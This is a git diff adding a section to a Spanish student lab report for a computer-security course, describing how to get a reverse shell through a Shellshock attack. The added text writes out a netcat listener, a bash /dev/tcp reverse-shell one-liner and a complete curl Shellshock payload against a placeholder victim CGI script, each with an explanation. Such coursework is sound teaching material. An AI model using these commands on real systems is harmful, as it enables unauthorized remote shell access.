

Before and after one commit to piter1902/seguridad_informatica, a LaTeX document (Practica1/memoria/memoria_pr1.tex): part of page 4 of 4 before the commit and two parts of pages 5 and 6 of 6 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
fin parte de juanjo, queda revisar

```diff
--- a/Practica1/memoria/memoria_pr1.tex
+++ b/Practica1/memoria/memoria_pr1.tex
@@ -135,7 +143,36 @@ El resultado de este comando (Figura \ref{fig:tarea4_b}) indica que el usuario q
 
 \section{Tarea 5: Obtención de un Shell inverso a través de un ataque Shellshock}
 
-Hola
+El primer paso para la creación de un Shell inverso, es utilizar el comando \emph{netcat} (o nc) para escuchar una conexión en el puerto indicado. \\
+
+\texttt{nc -l 9090 -v <- Escucha en el puerto 9090}
+
+Este comando se bloquea esperando una conexión. Ahora, se debe conseguir ejecutar un bash en el equipo atacado para crear una conexión TCP con el puerto 9090 del equipo atacante y crear el shell inverso. El shell es el siguiente:
+
+\texttt{/bin/bash -i > /dev/tcp/\_{}IP\_{}MAQUINA\_{}ATACANTE/9090 0<\&1 2>\&1}
+
+Explicación del comando anterior:\\
+
+\begin{itemize}
+	\item \texttt{/bin/bash -i ->} Con \emph{-i} se indica que el shell es interactivo
+	\item \texttt{> /dev/tcp/\_{}IP\_{}MAQUINA\_{}ATACANTE/9090 ->} Se redirige salida de la máquina atacada a la conexión TCP de la máquina atacante.
+	\item \texttt{0<\&1 ->} Se utiliza dispositivo de salida estándar como entrada estándar. Como la salida está redirigida a TCP, el shell obtendrá entrada de esta conexión.
+	\item \texttt{2>{}\&1 ->} La salida de error se redirige a salida, es decir, a la conexión TCP.
+\end{itemize}
+
+Al ejecutar el comando en la máquina deseada, este se conecta con el proceso \emph{netcat} de la máquina atacante, permitiendo el shell interactivo de forma remota, tal y como se muestra en la siguiente imagen.
+\\
+
+\begin{figure}[h]
+	\centering
+	\includegraphics[scale=0.6]{images/Tarea_5.png}
+	\caption{\emph{Reverse shell} realizado sobre una máquina virtual}
+	\label{fig:tarea5_shell_inverso}
+\end{figure}
+
+El problema de este ataque recae en conseguir ejecutar el comando en la máquina remota cuando no se tiene acceso físico a la misma. Para ello se utiliza el ataque \emph{Shellshock}, mediante el cual se pueden ejecutar comandos de forma remota.
+Para poder realizar el ataque, se utilizará el siguiente comando desde la máquina atacante, mediante el cual se conseguirá establecer un \emph{reverse shell} en la máquina indicada.\\
+\texttt{curl -v -A "() { echo "HOLA"; }; echo Content-type: text/plain; echo; /bin/bash -i > /dev/tcp/\_{}IP\_{}MAQUINA\_{}ATACANTE/9090 0<\&1 2>\&1;" http://\_{}IP\_{}MAQUINA\_{}VICTIMA/cgi-bin/myprog.cgi}
 
 
 
```
Also changed, not shown: Practica1/memoria/memoria_pr1.pdf, Practica1/memoria/memoria_pr1.tex (12 more changed lines).
